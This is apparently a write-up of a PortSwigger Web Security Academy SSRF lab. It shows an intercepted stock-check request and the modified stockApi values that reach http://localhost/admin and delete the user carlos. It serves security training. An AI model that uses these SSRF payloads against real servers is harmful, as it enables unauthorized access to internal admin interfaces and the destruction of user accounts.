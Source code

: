 
<p align="center">
  <img src="./screenshots/ssrf_logo_.png" alt="ssrf_logo"/>
</p>

---

- 🎯 **Target:**  SSRF Lab - Basic SSRF against the local server
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 22.04.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SSRF

---

## 🔍 Request interception

> I intercept the request to the `stock check` function:

```html

POST /product/stock HTTP/2
Host: 0aa7006603f274d1827406f30014005b.web-security-academy.net
Cookie: session=tPPc42PtFUDiOHHe8jIx*********
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa7006603f274d1827406f30014005b.web-security-academy.net/product?productId=6
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0aa7006603f274d1827406f30014005b.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```bash
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D6%26storeId%3D1
```

> url decode the request body and use ```<@urlencode></@urlencode>```:

```bash

stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=6&storeId=1</@urlencode>

```

> i need to access the admin panel at **localhost** and delete the user Carlos.
> That is I replace the request from the server side to make a request where I need and get the result.
> i change the request to ```http://localhost/admin```:

```bash

stockApi=<@urlencode>http://localhost/admin</@urlencode>

```

> Result:

![admin_interface](./screenshots/admin_interface.png)

> i'm sending a request for delete user Carlos:

```bash

stockApi=<@urlencode>http://localhost/admin/delete?username=carlos</@urlencode>

```

> Result:

![solved_lab](./screenshots/solved_lab.png)


